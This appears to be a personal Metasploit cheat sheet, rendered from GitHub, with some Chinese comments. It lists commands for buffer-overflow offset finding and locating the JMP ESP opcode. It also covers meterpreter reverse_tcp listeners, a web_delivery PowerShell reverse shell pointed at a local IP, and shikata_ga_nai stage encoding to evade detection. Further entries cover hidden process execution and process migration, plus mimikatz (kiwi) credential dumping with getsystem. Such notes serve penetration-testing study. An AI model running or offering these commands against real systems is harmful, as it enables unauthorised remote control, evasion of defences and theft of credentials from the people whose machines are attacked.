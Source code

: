 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Migrate shell into notepad.exe process
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Post-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
###### multi/handler payload encode
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
###### Migrating Processes
Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid
```
###### Meterpreter command to use powershell
```
meterpreter > :
load powershell
help powershell
powershell_execute "$PSVersionTable.PSVersion"
```
###### Meterpreter command to use mimikatz
```
meterpreter > :
load kiwi
getsystem
creds_msv
```
##### Add own rb exploit
exploit/multi/http/jenkins_nodejs_rce
```
under /home/kali/.msf4
create ../exploits/multi/http folder
put rb in it
msfconsole
search name
```
